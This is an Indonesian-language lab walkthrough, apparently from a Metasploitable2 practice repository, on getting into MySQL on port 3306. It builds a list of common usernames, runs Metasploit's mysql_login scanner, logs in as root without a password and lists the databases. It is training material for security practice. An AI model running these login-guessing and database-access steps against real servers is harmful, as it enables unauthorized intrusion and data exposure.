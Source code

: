 # Exploit Port 3306 (MySQL)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%201.JPG)

- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%202.JPG)

- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%203.JPG)

- Cari modul untuk exploit MySQL
```sh
search mysql scanner
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%204.JPG)

- Gunakan modul `auxiliary/scanner/mysql/mysql_login` yang berada di nomor urut 5 dari hasil pencarian
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%205.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%206.JPG)

- Isi parameter yang dibutuhkan di modul tersebut
```sh
set rhosts <IP_metasploitable2>
set user_file /home/kali/user-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%207.JPG)

- Setelah pengisian parameter selesai jalankan modul tersebut. Disini didapat akses ke MySQL tanpa password dengan menggunakan user `root`
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%208.JPG)

- Lakukan uji coba koneksi ke MySQL dengan user `root`. Ternyata disini kita berhasil masuk tanpa dimintai password
```sh
mysql -u root -h <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%209.JPG)

- Lihat semua database yang terdapat di MySQL Server
```sh
show databases;
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20MySQL/mysql%2010.JPG)